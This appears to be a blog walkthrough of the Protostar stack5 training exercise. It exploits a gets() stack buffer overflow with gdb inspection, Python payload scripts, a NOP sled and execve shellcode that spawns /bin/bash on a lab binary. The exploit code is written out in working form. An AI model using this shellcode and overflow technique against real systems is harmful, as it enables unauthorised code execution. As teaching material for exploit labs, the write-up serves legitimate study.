```yaml
---
title: "Protostar stack5 walkthrough"
date: 2020-05-22
tags: [protostar, stack5, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack5](https://exploit-exercises.lains.space/protostar/stack5/)

#### About
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

At this point in time, it might be easier to use someone elses shellcode
If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

#### Procedure:

We can use `gets()` to write something onto stack. To solve this level, we need to get a reverse shell using shellcode. So, once main function is done executing, we need the ESP to point to shellcode, which we can inject using `gets()`

###### Vulnerability:

`gets` is vulnerable function.


###### Disassembly:

Lets disassemble the main function
```
gdb ./stack5
(gdb) set disassembly-flavor intel
(gdb) diassemble main
```

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack5/disassemble.png)

Now, lets set breakpoint at the 'ret' of main and run the program with a long input (AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ)

```
break *0x080483da
r
AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
x/8wx $esp
```

![breakpoint]({{site.url}}{{site.baseurl}}/images/protostar/stack5/breakpoint.png)

At the breakpoint, we can see that the value in $esp is 0x56565656 and this will be executed in the next step and leads to segmentation fault. we can see this by continuing with `c`. 
We can use `x/s $esp` to get the esp values as a string

![segfault]({{site.url}}{{site.baseurl}}/images/protostar/stack5/segfault.png)

Instead of getting segmentation fault, we need the program to execute a shell code. Lets start by putting the shell code into $esp after 'ret' is executed

At the 'ret' instruction, $eip = 0x80483da (0x909090c3) and $esp = 0xbffff7cc (0x56565656). Once 'ret' is executed, the return address pointed by esp will be popped (ret is nothing but pop esp) and eip will have the value of return pointer (0x56565656). Now, $eip = 0x56565656(??) and $esp = 0xbffff7d0 (0x57575757). In the next step, eip will try to execute (??) and fails.

Before injecting any shellcode, lets try if we can trigger an input at this step. We need eip to point to interrupt (INT3) opcode (xCC). So we want $eip to have an address containing xCC.
After ret, $eip points to return pointer on stack. We can change this to a controllable address like 0xbffff7d0 where we write xCC.

So, 0xbffff7cc should have 0xbffff7d0 and 0xbffff7d0 should have xCC.
Lets create a payload that matches this with python

```
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU'
eip = struct.pack("I", 0xbffff7d0)
payload = "\xCC"*4
print padding+eip+payload
```

We can run the program in gdb using `r < /home/user/stack5/pay` where pay is the payload with output of above python program.

![interrup]({{site.url}}{{site.baseurl}}/images/protostar/stack5/interrupt.png)

As expected, address 0xbffff7cc has 0xbffff7d0. So, when we continue, eip will point to 0xbffff7d0 and run whatever is inside it. 0xbffff7d0 has 0xcccccccc which is our interrupt opcode. Now, if we continue `c`, we can see the program giving a SIGTRAP. 

![sigtrap]({{site.url}}{{site.baseurl}}/images/protostar/stack5/sigtrap.png)

This confirms that if shell code is written at 0xbffff7d0, it would execute. Lets use [this](http://shell-storm.org/shellcode/files/shellcode-606.php) shellcode from [shell-storm.org](http://shell-storm.org/)

Lets also add a NOP slide before adding shellcode. NOP slide is a chain of NOP instruction (opcode x90) which does no action. But this is useful since we are hardcoding the addresses in our script and it will not always match with the required address to execute eip. Havin a bunch of NOP instructions serve as a buffer to allow the difference between the actual eip address needed and the one we give in the script. 

```
import struct
padding = 'AAAABBBBCCCCDDDDEEEEFFFFIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUU'
eip = struct.pack("I", 0xbffff7d0+30)
nopslide = "\x90"*100
interrupt = "\xCC"
payload = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
print padding+eip+nopslide+interrupt+payload
```

Now at 'ret', we can see that $esp has 0xbffff7ee, which is in the middle of NOP slide.

![nopsled]({{site.url}}{{site.baseurl}}/images/protostar/stack5/nopsled.png)

Now, if we continue, we should get an interrupt followed by shell

![shell]({{site.url}}{{site.baseurl}}/images/protostar/stack5/shell.png)

/bin/bash has executed, but since the execution of stack5 is done, the pipe is closed and there is no way to give input to bash.

We can get past this by making `cat` run along with our python program (exploit.py). using `cat` without any input just prints whatever is entered in the prompt. if we can run cat along with stack5, we can have the stdin always available. First lets see if we can successfully run stack5 piping it to the output of exploit.py

`python exploit.py | /opt/protostar/bin/stack5`

![python]({{site.url}}{{site.baseurl}}/images/protostar/stack5/python.png)

Looks like we can run it. Lets remove the interrupt from our script and run stack5 with both python and cat as input.

`(python exploit.py; cat) | /opt/protostar/bin/stack5`

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack5/done.png)

Now we get a shell.




